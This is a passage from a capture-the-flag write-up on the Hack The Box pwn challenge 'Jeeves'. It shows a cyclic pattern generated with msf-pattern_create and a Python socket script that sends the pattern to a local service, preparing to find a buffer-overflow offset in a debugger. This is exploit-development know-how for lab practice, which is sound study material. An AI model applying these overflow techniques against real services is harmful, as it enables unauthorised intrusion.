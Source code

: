 ```default
kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ msf-pattern_create -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ 
```

```python
import socket
host = '127.0.0.1'
port = 31183

buffer = b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))
s.sendall(buffer)
s.shutdown(socket.SHUT_WR)
print(s.recv(1024))
s.close()
```

Now that we have modified our script, we will attach EDB to the binary the same way as we did before and set a breakpoint at the `jne` instruction. Once EDB is setup, we will run the Python script. 

![](images/Pasted%20image%2020210922200705.png){ width=250px }
